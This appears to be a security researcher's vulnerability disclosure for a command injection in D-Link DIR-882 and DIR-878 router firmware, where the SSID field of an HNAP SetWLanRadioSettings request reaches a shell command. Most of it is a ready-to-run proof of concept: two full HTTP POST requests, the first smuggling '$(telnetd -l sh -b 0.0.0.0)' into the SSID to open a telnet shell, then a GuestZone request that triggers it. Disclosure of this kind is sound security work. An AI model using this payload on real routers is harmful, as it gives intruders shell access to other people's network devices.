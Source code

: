 # D-Link Vulnerability

Vendor:D-Link

Product:DIR_882、DIR_878

Version:DIR_882_FW130B06、DIR_878_FW130B08

Type:Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in D-Link Technology router with firmware which was released recently. A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request.

**Remote Command Execution**

In `prog.cgi` binary:

In `SetWLanRadioSettings` function,`SSID` is directly passed by the attacker. After that, call the function nvram_bufset to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

In `rc` binary:

In `start_wlan_guest` function, the initial input will be extracted. Eventually, the initial input will cause command injection.

The necessary condition for successfully triggering the vulnerability is to enable the GuestZone service, so we need to send two packets to complete the triggering of the vulnerability.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

**Supplement**

The trigger point of this vulnerability is deep in the program path, so we recommend that the string content should be strictly checked when extracting user input.

Vulnerability trigger steps:

* set `SSID`=$(telnetd -l sh -b 0.0.0.0), in (`SetWLanRadioSettings`)
* Enable GuestZone service, in (`SetGuestZoneRouterSettings`)



## PoC

We set `SSID`=$(telnetd -l sh -b 0.0.0.0), in (`SetWLanRadioSettings`)

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.100.1
Content-Length: 812
SOAPAction: "http://purenetworks.com/HNAP1/SetWLanRadioSettings"
X-Requested-With: XMLHttpRequest
HNAP_AUTH: 88944F730FC80895668F41C60F4CD853 1727266076657
Accept: */*
Content-Type: text/xml; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Origin: http://192.168.100.1
Referer: http://192.168.100.1/UsbSharing.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=AiLEaq1e
Connection: close

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetWLanRadioSettings xmlns="http://purenetworks.com/HNAP1/"><RadioID>RADIO_2.4GHz_Guest</RadioID><Enabled>true</Enabled><Mode>802.11bgn</Mode><SSID>$(telnetd -l sh -b 0.0.0.0)</SSID><SSIDBroadcast>true</SSIDBroadcast><ChannelWidth>40</ChannelWidth><Channel>0</Channel><SecondaryChannel>0</SecondaryChannel><QoS>true</QoS><ScheduleName>Always</ScheduleName><TXPower></TXPower><Coexistence>false</Coexistence><MUMIMOEnabled>true</MUMIMOEnabled><BandSteeringEnabled>true</BandSteeringEnabled><AirTimeFairnessEnabled>true</AirTimeFairnessEnabled></SetWLanRadioSettings></soap:Body></soap:Envelope>
```

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

Enable GuestZone service, in (`SetGuestZoneRouterSettings`)

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.100.1
Content-Length: 558
SOAPAction: "http://purenetworks.com/HNAP1/SetGuestZoneRouterSettings"
X-Requested-With: XMLHttpRequest
HNAP_AUTH: A29732C16107E917C46672943D7E3BB2 1727268039123
Accept: */*
Content-Type: text/xml; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Origin: http://192.168.100.1
Referer: http://192.168.100.1/UsbSharing.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=Pnt8v1cG
Connection: close

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetGuestZoneRouterSettings xmlns="http://purenetworks.com/HNAP1/"><InternetAccessOnly>true</InternetAccessOnly><IPAddress></IPAddress><SubnetMask></SubnetMask><DHCPServer>true</DHCPServer><DHCPRangeStart></DHCPRangeStart><DHCPRangeEnd></DHCPRangeEnd><DHCPLeaseTime>0</DHCPLeaseTime></SetGuestZoneRouterSettings></soap:Body></soap:Envelope>
```

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>



## Result

Get a shell!

<div  align="center"><img src="./images/5.png" style="zoom:100%;" /></div>
